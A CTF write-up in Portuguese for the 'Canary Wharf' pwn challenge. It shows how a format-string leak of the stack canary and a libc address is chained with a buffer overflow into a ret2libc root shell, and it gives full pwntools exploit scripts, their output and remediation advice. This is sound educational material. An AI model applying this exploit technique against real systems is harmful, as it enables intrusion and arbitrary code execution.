

# Canary Wharf | Fluid Attacks CTF 2026

`pwn` `format-string` `stack-canary` `bof` `ret2libc` `pwntools` `glibc-2.35`

| | |
|---|---|
| **Plataforma / evento** | Fluid Attacks CTF 2026 (etapa 2, 04/07/2026) |
| **Categoria** | Pwn (Binary Exploitation) |
| **Resolvido em** | 2026-07-04 |

## TL;DR

O "Fluid Banking Terminal" tem dois bugs. Em `check_balance()` há um format string (`printf(note)` com o memo do usuário), que me deixa vazar o que quiser da stack: uso isso para ler o stack canary (`%25$p`) e um ponteiro da libc (`%3$p`). Em `transfer_funds()` há um estouro de buffer (`read(0, amount, 256)` num `amount[64]`). Com o canary vazado eu estouro o buffer preservando o canary e monto um ret2libc clássico: `pop rdi; ret` -> `"/bin/sh"` -> `system()`. Cai num shell como root e leio `/flag.txt`.

> [!IMPORTANT]
> **Ideia-chave:** canary, PIE e Full RELRO só protegem enquanto você não vaza nada. O format string vaza canary e base da libc, e aí o overflow vira um ret2libc comum. O detalhe que me custou três scripts foi fazer os dois leaks na mesma requisição.

## Enunciado

> Fluid Banking Terminal v3.1.4. "Your finances, secured."

**Arquivos / instância:** um `public.zip` com `bank` (ELF 64-bit PIE), o código-fonte `bank.c`, a `libc.so.6` e o `ld-linux-x86-64.so.2`. Na minha instância o serviço remoto era `7dc0a9a999cc700b.chal.ctf.ae:443` (TLS).

## Dicas progressivas

<details><summary>Dica 1</summary>Duas funções, dois bugs. Uma imprime a sua entrada sem format string fixa; a outra lê mais bytes do que o buffer comporta.</details>
<details><summary>Dica 2</summary>O format string de <code>check_balance</code> vaza stack. Procure o canary (termina em <code>00</code>) e um ponteiro para a libc.</details>
<details><summary>Dica 3</summary>Com canary e libc vazados, estoure <code>transfer_funds</code> mantendo o canary e faça ret2libc para <code>system("/bin/sh")</code>. Vaze os dois valores numa única chamada.</details>

## Ambiente

- **Máquina atacante:** Kali Linux, `pwntools`.
- **libc:** a fornecida é a `glibc 2.35` (Ubuntu 22.04). Rodo local com o loader fornecido (`ld-linux-x86-64.so.2 --library-path .`) para casar os offsets com o remoto.

***INSERIR no terminal: Kali (atacante)

```bash
export HOST=7dc0a9a999cc700b.chal.ctf.ae
```

Na minha instância o serviço estava em `HOST:443` com TLS (o script final já trata isso).

## Resolução

### 1. Extração: o zip não abre com unzip

Primeiro reflexo foi `unzip` com a senha padrão da plataforma (`infected`). Não funcionou.

***INSERIR no terminal: Kali (atacante)

```bash
mkdir -p loot && unzip -P infected -o public.zip -d loot/public
```

```text
Archive:  public.zip
   skipping: bank                    unsupported compression method 99
   skipping: bank.c                  unsupported compression method 99
   skipping: ld-linux-x86-64.so.2    unsupported compression method 99
   skipping: libc.so.6               unsupported compression method 99
```

**Isso não funcionou** (pule ao replicar): "compression method 99" é AES. O `unzip` do Info-ZIP não descompacta zip cifrado com AES. Troquei pelo `7z`, que entende esse formato.

***INSERIR no terminal: Kali (atacante)

```bash
rm -rf loot/public && mkdir -p loot/public && 7z x -pinfected -oloot/public public.zip && find loot/public -maxdepth 3 -type f -exec file {} \;
```

```text
loot/public/ld-linux-x86-64.so.2: ELF 64-bit LSB shared object, x86-64 ... stripped
loot/public/bank: ELF 64-bit LSB pie executable, x86-64 ... interpreter /lib64/ld-linux-x86-64.so.2 ... not stripped
loot/public/bank.c: C source, ASCII text
loot/public/libc.so.6: ELF 64-bit LSB shared object, x86-64 ... stripped
```

Quatro arquivos: o binário (PIE, não stripped, então tenho os nomes das funções), o fonte, a libc e o loader. Ter a libc e o loader é o sinal clássico de que o caminho é ret2libc com a libc do desafio.

### 2. checksec e leitura do fonte: os dois bugs

***INSERIR no terminal: Kali (atacante)

```bash
cd loot/public && checksec --file=./bank
```

```text
Arch:       amd64-64-little
RELRO:      Full RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        PIE enabled
RUNPATH:    b'/lib/x86_64-linux-gnu'
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```

Todas as mitigações ligadas. Canary e PIE me dizem logo que vou precisar de um leak antes de qualquer coisa. `SHSTK`/`IBT` são CET: a shadow stack reclamaria de um ROP se o kernel/CPU do alvo a aplicasse, mas num ret2libc simples (uma cadeia curta de gadgets que já existem na libc) passou sem problema, então não me prendi nisso.

Como o binário veio com fonte, li o `bank.c` inteiro. O relevante:

#### `bank.c` (trechos)

```c
void check_balance(void) {
    char note[128];

    printf("\nEnter account memo: ");
    memset(note, 0, sizeof(note));
    int n = read(0, note, 127);
    if (n > 0 && note[n - 1] == '\n')
        note[n - 1] = '\0';

    printf("\n--- Account Statement ---\n");
    printf("Account Holder: ");
    printf(note);              // BUG 1: format string (note é controlado)
    printf("\nBalance: $13,370.00\n");
    // ...
}

void transfer_funds(void) {
    char amount[64];

    printf("\nEnter transfer details: ");
    memset(amount, 0, sizeof(amount));
    read(0, amount, 256);      // BUG 2: lê 256 num buffer de 64 -> overflow
    // ...
}
```

Dois bugs separados, em funções separadas, acessíveis pelo menu (`[1]` chama `check_balance`, `[2]` chama `transfer_funds`). O plano já se desenha: uso o bug 1 para vazar, e o bug 2 para controlar o RIP. Repare também no `read(0, note, 127)`: o memo tem no máximo 127 bytes, então meu payload de format string precisa ser curto.

> [!TIP]
> **Conceito: format string (`printf(user)`).** Quando o primeiro argumento do `printf` é controlado pelo usuário, cada `%p`/`%x` lê uma palavra da stack e `%n` escreve. `%k$p` lê diretamente o k-ésimo argumento variádico, ou seja, a k-ésima palavra depois dos registradores de argumento. Isso derrota PIE e canary porque permite *ler* endereços em runtime. Referência: [OWASP: Format string attack](https://owasp.org/www-community/attacks/Format_string_attack).

### 3. Probe do format string: mapear a stack

Antes de saber *qual* índice tem o canary e qual tem a libc, preciso despejar um monte de posições. Escrevi um probe que manda `%1$p` até `%64$p` em blocos de 8 (para não estourar o limite de 127 bytes do memo), cada bloco numa conexão nova.

#### `scripts/script1.py`

```python
#!/usr/bin/env python3
from pwn import *

# Desativa logs muito verbosos do pwntools.
context.log_level = "error"

# Arquivos fornecidos pelo desafio.
BIN = "./bank"
LD = "./ld-linux-x86-64.so.2"
LIBC_DIR = "."

def start_process():
    """
    Inicia o binário usando o loader e a libc fornecidos no ZIP.
    Isso aproxima o ambiente local do ambiente remoto.
    """
    return process([LD, "--library-path", LIBC_DIR, BIN])

def leak_positions(start, end):
    """
    Envia uma sequência de format strings posicionais:
    %1$p, %2$p, %3$p...

    O objetivo é mapear quais posições da stack contêm:
    - stack canary
    - retorno para o binário PIE
    - retorno/endereço da libc
    - ponteiros úteis
    """
    p = start_process()

    # Aguarda o menu principal.
    p.recvuntil(b"> ")

    # Escolhe a opção 1: Check Balance.
    p.sendline(b"1")

    # Aguarda o campo vulnerável.
    p.recvuntil(b"Enter account memo: ")

    # Monta payload curto para caber no limite de 127 bytes.
    payload = b"|".join([f"%{i}$p".encode() for i in range(start, end + 1)])

    print("=" * 100)
    print(f"POSICOES {start} até {end}")
    print("=" * 100)
    print("[*] Payload:", payload.decode())

    # Envia payload de format string.
    p.sendline(payload)

    # Lê a resposta até o próximo menu ou até timeout.
    output = p.recv(timeout=2)

    try:
        print(output.decode(errors="replace"))
    except Exception:
        print(repr(output))

    p.close()

def main():
    # Testa posições em blocos para não passar de 127 bytes.
    for start in range(1, 61, 8):
        end = start + 7
        leak_positions(start, end)

if __name__ == "__main__":
    main()
```

***INSERIR no terminal: Kali (atacante)

```bash
python3 script1.py 2>&1 | tee ../script1_fmt_probe_output.txt
```

```text
POSICOES 1 até 8
[*] Payload: %1$p|%2$p|%3$p|%4$p|%5$p|%6$p|%7$p|%8$p
Account Holder: 0x7fffdc779c40|(nil)|0x7f2558714907|0x10|(nil)|0x7f255881b780|0x28588e20a9|0x2432257c70243125
...[snip]...
POSICOES 25 até 32
[*] Payload: %25$p|%26$p|%27$p|%28$p|%29$p|%30$p|%31$p|%32$p
Account Holder: 0x44a8b72e43f08b00|0x7ffd7228a0e0|0x7f8ac5bbe5e7|(nil)|0x200000000|0xa31|0x44a8b72e43f08b00|0x1
```

Três observações importantes já aqui:

- `%3$p` e `%6$p` são `0x7f...`, cara de ponteiro de libc.
- `%8$p = 0x2432257c70243125` é o meu próprio payload ecoado (`$%...p|%...` em ASCII). Isso confirma a partir de onde a minha entrada cai na stack.
- `%25$p` e `%31$p` terminam em `00` (`...f08b00`) e são iguais entre si: a cara de um stack canary (o byte baixo nulo é marca registrada do canary do glibc).

### 4. Classificar os leaks contra /proc/maps

"Cara de libc" e "cara de canary" não bastam: preciso confirmar. Como rodo local, posso ler `/proc/<pid>/maps` e casar cada endereço vazado com o segmento real (bank, libc, ld, stack). Escrevi um classificador.

A primeira versão reusava **um único processo** para todos os blocos. Deu ruim:

***INSERIR no terminal: Kali (atacante)

```bash
python3 script2.py 2>&1 | tee ../script2_leaks_classificados.txt
```

```text
LEAKS CLASSIFICADOS
Traceback (most recent call last):
  ...
  File ".../script2.py", line 55, in leak_chunk
    p.recvuntil(b"> ")
  ...
EOFError
```

**Isso não funcionou** (pule ao replicar): o processo tem `alarm(120)` no `setup()` e, somando o tempo das rodadas, ele morria no meio. Além disso, dá para o parsing dessincronizar entre um bloco e outro. Resolvi lendo o `/proc/maps` logo no começo (uma vez só) e mantendo o loop de leaks curto e sincronizado por `recvuntil(b"> ")`. Essa versão corrigida é o `script3.py`.

#### `scripts/script3.py`

```python
#!/usr/bin/env python3
from pwn import *
import re

context.log_level = "error"

BIN = "./bank"
LD = "./ld-linux-x86-64.so.2"
LIBC_DIR = "."

def start_process():
    """
    Executa o binário usando o loader e a libc fornecidos.
    """
    return process([LD, "--library-path", LIBC_DIR, BIN])

def read_maps(pid):
    """
    Lê /proc/<pid>/maps depois que o programa já chegou no menu.
    Assim garantimos que bank, libc e ld-linux já foram mapeados.
    """
    maps = []

    with open(f"/proc/{pid}/maps", "r", encoding="utf-8") as f:
        for line in f:
            line = line.strip()
            parts = line.split()
            addr_range = parts[0]
            path = parts[-1] if len(parts) >= 6 else ""

            start_s, end_s = addr_range.split("-")
            start = int(start_s, 16)
            end = int(end_s, 16)

            maps.append((start, end, path, line))

    return maps

def classify(value, maps):
    """
    Classifica um endereço vazado comparando com os mappings reais do processo.
    """
    for start, end, path, line in maps:
        if start <= value < end:
            return path, value - start, line

    return None, None, None

def leak_chunk(p, start, end):
    """
    Envia uma rodada de format string.

    Importante:
    Esta função assume que o prompt '> ' já foi consumido.
    Então ela manda diretamente a opção 1.
    No final, ela lê até o próximo prompt e deixa o processo pronto
    para a próxima rodada.
    """
    p.sendline(b"1")
    p.recvuntil(b"Enter account memo: ")

    payload = b"|".join([f"%{i}$p".encode() for i in range(start, end + 1)])
    p.sendline(payload)

    data = p.recvuntil(b"> ", timeout=2)
    text = data.decode(errors="replace")

    marker = "Account Holder: "
    if marker not in text:
        print("[!] Não encontrei Account Holder nessa resposta.")
        print(text)
        return {}

    leaked_line = text.split(marker, 1)[1].split("\n", 1)[0]
    values = leaked_line.split("|")

    result = {}

    for index, raw in zip(range(start, end + 1), values):
        raw = raw.strip()

        if raw == "(nil)":
            result[index] = None
            continue

        try:
            result[index] = int(raw, 16)
        except ValueError:
            result[index] = None

    return result

def main():
    p = start_process()

    # Espera o programa terminar de inicializar e chegar ao menu.
    p.recvuntil(b"> ")

    maps = read_maps(p.pid)

    print("=" * 100)
    print("MAPS RELEVANTES")
    print("=" * 100)

    for _, _, path, line in maps:
        if "bank" in path or "libc.so.6" in path or "ld-linux" in path or "[stack]" in path:
            print(line)

    print()
    print("=" * 100)
    print("LEAKS CLASSIFICADOS")
    print("=" * 100)

    all_leaks = {}

    # Vaza em blocos para respeitar o limite de 127 bytes do memo.
    for start in range(1, 91, 8):
        end = start + 7
        leaks = leak_chunk(p, start, end)
        all_leaks.update(leaks)

    for index in sorted(all_leaks):
        value = all_leaks[index]

        if value is None:
            print(f"%{index:02d}$p = (nil)")
            continue

        path, offset, line = classify(value, maps)

        canary_like = ""
        if value != 0 and (value & 0xff) == 0:
            canary_like = "  <-- termina com 00, candidato a canary"

        if path:
            print(f"%{index:02d}$p = {value:#018x}  {path} + {offset:#x}{canary_like}")
        else:
            print(f"%{index:02d}$p = {value:#018x}{canary_like}")

    p.close()

if __name__ == "__main__":
    main()
```

***INSERIR no terminal: Kali (atacante)

```bash
python3 script3.py 2>&1 | tee ../script3_leaks_classificados.txt
```

```text
LEAKS CLASSIFICADOS
%01$p = 0x00007ffe05fa5910  [stack] + 0x1c910
%03$p = 0x00007f55d6514907  .../libc.so.6 + 0xec907
%06$p = 0x00007f55d661b780  .../libc.so.6 + 0x1780
...[snip]...
%25$p = 0xfaaa1c0953e72200  <-- termina com 00, candidato a canary
%27$p = 0x00007f55d676a5e7  .../bank + 0x5e7
%31$p = 0xfaaa1c0953e72200  <-- termina com 00, candidato a canary
%33$p = 0x00007f55d6429d90  .../libc.so.6 + 0x1d90
...[snip]...
```

Agora está confirmado e nomeado:

- **`%25$p` é o stack canary.** Aparece de novo em `%31$p` com o mesmo valor (o canary é copiado em mais de um frame), e termina em `00`.
- **`%3$p` é um ponteiro para a libc.** O classificador mostra `libc.so.6 + 0xec907`, mas atenção: esse `0xec907` é o offset a partir do **segmento executável** (`r-xp`, que começa em `base + 0x28000`). O que eu preciso para reconstruir a base é o offset a partir do **início do arquivo**: `0x514907 - 0x400000 = 0x114907`. É esse `0x114907` que uso no exploit (`libc_base = leak - 0x114907`).

### 5. Offset até o canary e layout do overflow

O bug 2 está em `amount[64]`. Com o fonte na mão e um teste com `cyclic`, o layout até o retorno fica:

```
amount[64] + padding[8] + canary[8] + saved_rbp[8] + RIP
```

Ou seja, o canary começa no offset **72** a partir do início de `amount`. O payload precisa escrever 72 bytes de lixo, recolocar o canary **exato** que vazei, 8 bytes de rbp falso, e só então a cadeia ROP. Se o canary não bater, o `__stack_chk_fail` aborta antes de retornar.

### 6. Primeira tentativa de ret2libc local: dois leaks em chamadas separadas

Montei o exploit local (`script4.py`) vazando canary e libc em **duas** chamadas de `check_balance` separadas, depois disparando o overflow. Falhou:

***INSERIR no terminal: Kali (atacante)

```bash
python3 script4.py 2>&1 | tee ../script4_local_ret2libc.txt
```

```text
[+] Starting local process './ld-linux-x86-64.so.2': pid 328158
Traceback (most recent call last):
  ...
  File ".../script4.py", line 101, in main
    libc_leak = leak_value(p, LIBC_LEAK_INDEX)
  File ".../script4.py", line 40, in leak_value
    p.recvuntil(b"> ")
  ...
EOFError
[*] Process './ld-linux-x86-64.so.2' stopped with exit code -14 (SIGALRM)
```

**Isso não funcionou** (pule ao replicar): a função de leak consumia o prompt `> ` de um jeito que dessincronizava na segunda chamada, e o `alarm(120)` ainda derrubava o processo (`exit code -14 (SIGALRM)`) no meio. O padrão "um leak por requisição" estava brigando com o fluxo do menu.

### 7. Mesma falha no remoto: confirmando o diagnóstico

Levei a mesma lógica para o remoto (`script5.py`), só para ver se o comportamento mudava. Não mudou, e aí ficou claro o que corrigir:

***INSERIR no terminal: Kali (atacante)

```bash
python3 script5.py 2>&1 | tee ../script5_remote_output.txt
```

```text
[+] Opening connection to 7dc0a9a999cc700b.chal.ctf.ae on port 443: Done
[*] leak %25$p = 0x88631d5834825700
Traceback (most recent call last):
  ...
  File ".../script5.py", line 137, in main
    libc_leak = leak_value(p, LIBC_LEAK_INDEX)
  ...
EOFError
```

**Isso não funcionou** (pule ao replicar), mas foi o momento-chave: o **primeiro** leak funcionou (`%25$p = 0x88631d5834825700`, canary remoto com o byte `00`), e só o **segundo** quebrou. A conclusão é direta: em vez de duas idas ao menu, faço `check_balance` **uma vez** e peço `%25$p|%3$p` no mesmo memo. Um leak, dois valores, zero dessincronização.

### 8. Exploit final: leak combinado + ret2libc

A versão final (`script6.py`) junta tudo: vaza canary e libc numa única chamada, calcula a base da libc, monta a cadeia `ret; pop rdi; "/bin/sh"; system` (o `ret` extra alinha a stack em 16 bytes, exigência do `movaps` dentro de `system` na glibc 2.35) e dispara o overflow. Script completo, idêntico ao arquivo em `scripts/`:

#### `scripts/script6.py`

```python
#!/usr/bin/env python3
from pwn import *
import re
import sys
import time

# ============================================================
# Canary Wharf exploit corrigido
#
# Vulnerabilidades:
# 1. check_balance(): printf(note)
#    Permite format string e leak de stack/libc/canary.
#
# 2. transfer_funds(): read(0, amount, 256)
#    amount tem só 64 bytes, então temos overflow.
#
# Estratégia:
# - Vazar canary e libc em UMA única chamada de check_balance().
# - Calcular base da libc.
# - Preservar canary no overflow.
# - Fazer ret2libc para system("/bin/sh").
# - Executar cat /flag.txt.
# ============================================================

context.binary = "./bank"
context.log_level = "info"

BIN = "./bank"
LD = "./ld-linux-x86-64.so.2"
LIBC_PATH = "./libc.so.6"
LIBC_DIR = "."

HOST = "7dc0a9a999cc700b.chal.ctf.ae"
PORT = 443

elf = ELF(BIN)
libc = ELF(LIBC_PATH)

# Confirmados localmente:
# %25$p = stack canary
# %3$p  = libc.so.6 + 0x114907
CANARY_INDEX = 25
LIBC_LEAK_INDEX = 3
LIBC_LEAK_OFFSET = 0x114907

# Layout provável:
# amount[64] + padding[8] + canary[8] + saved_rbp[8] + RIP
OFFSET_TO_CANARY = 72

def start():
    """
    Modo remoto por padrão.
    Para testar local:
    python3 script6.py local
    """
    if len(sys.argv) > 1 and sys.argv[1] == "local":
        return process([LD, "--library-path", LIBC_DIR, BIN])

    return remote(HOST, PORT, ssl=True, sni=HOST)

def leak_canary_and_libc(p):
    """
    Faz um único leak com:
    %25$p|%3$p

    Isso evita o bug anterior em que o script consumia o prompt
    e depois ficava esperando outro prompt que não existia.
    """
    p.recvuntil(b"> ")
    p.sendline(b"1")

    p.recvuntil(b"Enter account memo: ")

    payload = f"%{CANARY_INDEX}$p|%{LIBC_LEAK_INDEX}$p".encode()
    log.info(f"format payload = {payload!r}")
    p.sendline(payload)

    data = p.recvuntil(b"> ", timeout=5)

    print()
    print("=" * 90)
    print("RESPOSTA DO LEAK")
    print("=" * 90)
    print(data.decode(errors="replace"))

    match = re.search(rb"Account Holder: (0x[0-9a-fA-F]+)\|(0x[0-9a-fA-F]+)", data)
    if not match:
        raise RuntimeError("Não consegui parsear canary/libc leak.")

    canary = int(match.group(1), 16)
    libc_leak = int(match.group(2), 16)

    return canary, libc_leak

def build_payload(canary, libc_base):
    """
    Monta payload ret2libc.
    """
    libc.address = libc_base

    rop = ROP(libc)

    ret = rop.find_gadget(["ret"]).address
    pop_rdi = rop.find_gadget(["pop rdi", "ret"]).address
    bin_sh = next(libc.search(b"/bin/sh\x00"))
    system = libc.sym["system"]

    log.info(f"canary    = {canary:#x}")
    log.info(f"libc leak = {libc_base + LIBC_LEAK_OFFSET:#x}")
    log.info(f"libc base = {libc_base:#x}")
    log.info(f"ret       = {ret:#x}")
    log.info(f"pop rdi   = {pop_rdi:#x}")
    log.info(f"/bin/sh   = {bin_sh:#x}")
    log.info(f"system    = {system:#x}")

    payload = b"A" * OFFSET_TO_CANARY
    payload += p64(canary)
    payload += b"B" * 8
    payload += p64(ret)
    payload += p64(pop_rdi)
    payload += p64(bin_sh)
    payload += p64(system)

    return payload

def exploit():
    p = start()

    canary, libc_leak = leak_canary_and_libc(p)
    libc_base = libc_leak - LIBC_LEAK_OFFSET

    print()
    print("=" * 90)
    print("VALORES CALCULADOS")
    print("=" * 90)
    print(f"canary:    {canary:#x}")
    print(f"libc leak: {libc_leak:#x}")
    print(f"libc base: {libc_base:#x}")

    payload = build_payload(canary, libc_base)

    print()
    print("=" * 90)
    print("ENVIANDO OVERFLOW")
    print("=" * 90)

    # O prompt > já foi consumido pelo recvuntil anterior.
    # O programa está parado aguardando opção do menu.
    p.sendline(b"2")
    p.recvuntil(b"Enter transfer details: ")
    p.sendline(payload)

    time.sleep(0.4)

    # Se system('/bin/sh') funcionou, esses comandos serão executados no shell.
    p.sendline(b"cat /flag.txt")
    p.sendline(b"id")
    p.sendline(b"exit")

    output = p.recvall(timeout=5)

    print()
    print("=" * 90)
    print("OUTPUT FINAL")
    print("=" * 90)
    print(output.decode(errors="replace"))

    match = re.search(rb"flag\{[^}\r\n]+\}", output, re.IGNORECASE)
    if match:
        flag = match.group(0).decode()
        print()
        print("=" * 90)
        print("[+] FLAG ENCONTRADA")
        print("=" * 90)
        print(flag)

        with open("flag.txt", "w", encoding="utf-8") as f:
            f.write(flag + "\n")

        print("[+] Flag salva em flag.txt")
    else:
        print()
        print("[-] Flag não apareceu.")
        print("[*] Se não houve 'stack smashing detected', o próximo ajuste é testar local com:")
        print("    python3 script6.py local")

if __name__ == "__main__":
    exploit()
```

Antes do remoto, rodei local com o loader fornecido para garantir que offsets e gadgets batem com a glibc 2.35 do desafio:

***INSERIR no terminal: Kali (atacante)

```bash
python3 script6.py local
```

Batendo local, fui ao remoto:

***INSERIR no terminal: Kali (atacante)

```bash
python3 script6.py
```

```text
VALORES CALCULADOS
canary:    0xd51ee833e1d17200
libc leak: 0x7f4b4807f907
libc base: 0x7f4b47f6b000
[*] canary    = 0xd51ee833e1d17200
[*] ret       = 0x7f4b47f94139
[*] pop rdi   = 0x7f4b47f953e5
[*] /bin/sh   = 0x7f4b48143678
[*] system    = 0x7f4b47fbbd70

OUTPUT FINAL
Processing transfer...
Transfer complete.

flag{a39f962f5b7XXXXX}
uid=0(root) gid=0(root) groups=0(root)

[+] FLAG ENCONTRADA
flag{a39f962f5b7XXXXX}
```

Dois detalhes que confirmam que deu certo: o canary vazado `0xd51ee833e1d17200` termina em `00` (byte nulo que o canary sempre carrega), prova de que `%25$p` acertou; e o shell saiu como `uid=0(root)`, então `cat /flag.txt` imprimiu a flag.

> [!TIP]
> **Local x remoto na glibc 2.35:** `system` executa `movaps`, que exige a stack alinhada em 16 bytes. Por isso coloco um gadget `ret` extra antes de `pop rdi`. Sem ele, o exploit funciona ou crasha conforme o alinhamento, um bug intermitente chato de diagnosticar. Validar local com o loader fornecido antes do remoto evita perder tempo nisso.

## Cadeia de ataque



## Por que funciona

As mitigações (canary, PIE, Full RELRO, NX) assumem que o atacante não conhece segredos de runtime. O format string quebra exatamente essa suposição: vaza o canary (derrotando o stack protector) e um ponteiro da libc (derrotando o ASLR da libc). Com os dois valores, o overflow de `transfer_funds` deixa de ser bloqueado pelo canary, e o NX é contornado com ret2libc (reuso de código que já existe, sem shellcode). A primitiva final é controle do RIP com a libc mapeada em endereço conhecido, ou seja, execução arbitrária.

## Remediação

- Nunca passar entrada do usuário como format string: `printf("%s", note)`.
- Respeitar o tamanho do buffer: `read(0, amount, sizeof(amount) - 1)`.
- Compilar com `_FORTIFY_SOURCE=2` (pega alguns format strings em tempo de compilação) e revisar com `-Wformat-security`.

## Lições e padrões

- **Sinais para reconhecer:** `printf(var)` sem string de formato fixa = leak/escrita arbitrária; `read`/`gets`/`fgets` com tamanho maior que o buffer = overflow. Juntos, o canary deixa de ser obstáculo. Vir com `libc.so.6` + loader no pacote é dica de ret2libc.
- **Da próxima vez eu tentaria primeiro:** mapear índices do format string (`%p` em sequência), identificar canary (`...00`) e um ponteiro de libc, medir offsets com `cyclic`, e, crucial aqui, **vazar tudo numa única requisição** para não brigar com o fluxo de menu/alarm. Em glibc 2.3x, já incluo o `ret` de alinhamento por padrão.

## Referências

- [OWASP: Format string attack](https://owasp.org/www-community/attacks/Format_string_attack)
- [ret2libc / ROP (pwntools docs)](https://docs.pwntools.com/en/stable/rop/rop.html)

## Flag

```text
flag{a39f962f5b7XXXXX}
```
